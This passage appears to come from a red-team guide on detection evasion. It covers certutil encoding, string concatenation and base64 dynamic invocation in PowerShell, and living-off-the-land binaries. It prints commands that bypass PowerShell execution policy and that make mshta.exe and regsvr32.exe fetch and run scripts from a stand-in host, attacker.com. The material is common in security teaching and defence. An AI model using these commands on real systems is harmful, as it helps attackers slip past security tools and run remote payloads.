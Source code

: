     bash

    certutil -encode original.txt encoded.txt
    certutil -decode encoded.txt decoded.txt

String Substitution:

    Description: Replacing strings in scripts or commands with equivalent expressions to avoid pattern detection.
    Example:

    powershell

    $cmd = "Get" + "-" + "Process"
    Invoke-Expression $cmd

Dynamic Invocation:

    Description: Dynamically constructing and invoking commands at runtime to bypass static analysis.
    Example:

    powershell

        $command = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('R2V0LVByb2Nlc3M='))
        Invoke-Expression $command

B. Living off the Land Binaries (LOLBins)

LOLBins are legitimate binaries pre-installed on operating systems that can be leveraged for malicious purposes. Using these binaries helps avoid detection because they are trusted and not usually flagged by security solutions.
Techniques and Tools using LOLBins:

    Using cmd.exe and powershell.exe:
        Description: These are native Windows executables that can execute scripts and commands.
        Example:

        bash

    cmd.exe /c "powershell -NoP -NonI -Exec Bypass -Command [YourCommand]"

Using Mshta.exe:

    Description: Mshta.exe is a Windows binary used to execute HTML applications (HTA). Attackers can use it to execute JavaScript or VBScript code.
    Example:

    bash

    mshta.exe "http://attacker.com/payload.hta"

Using Regsvr32.exe:

    Description: Regsvr32.exe can be used to execute scripts by registering and calling DLLs.
    Example:

    bash

    regsvr32.exe /s /n /u /i:http://attacker.com/script.sct scrobj.dll
